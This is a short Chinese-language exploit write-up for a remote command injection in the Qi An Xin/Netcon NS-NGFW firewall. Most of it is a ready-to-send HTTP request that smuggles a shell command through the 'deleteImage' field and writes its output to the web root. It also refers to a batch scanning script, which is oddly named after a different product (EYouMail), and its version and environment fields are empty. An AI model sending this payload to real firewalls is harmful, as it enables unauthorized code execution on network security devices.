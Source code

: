 # 0x00 软件介绍
网康NGFW：网康Next Generation FireWall，即网康下一代防火墙，网康NS-NGFW是网康下一代防火墙系列中的一款，由于网康目前被奇安信收购，故称为：奇安信 网康NS-NGFW  
官网：https://www.netentsec.com/product/lists_265.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
burp中发送如下请求
```
POST /directdata/direct/router HTTP/1.1
Host: xxx.xxx.160.154:4430
User-Agent: Mozilla/5.0
Content-Length: 254
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

{
    "action": "SSLVPN_Resource", 
    "method": "deleteImage", 
    "data": [
        {
            "data": [
                "/var/www/html/d.txt;id > /var/www/html/1.txt"
            ]
        }
    ], 
    "type": "rpc", 
    "tid": 17
}
```
返回如下图  
![image](./pic/0.png)  
此时，再去访问根目录下的1.txt，如下图  
![image](./pic/1.png)

# 0x05 批量脚本
EYouMailRCE-Batch-Detect.py，具体用法见：python3 EYouMailRCE-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
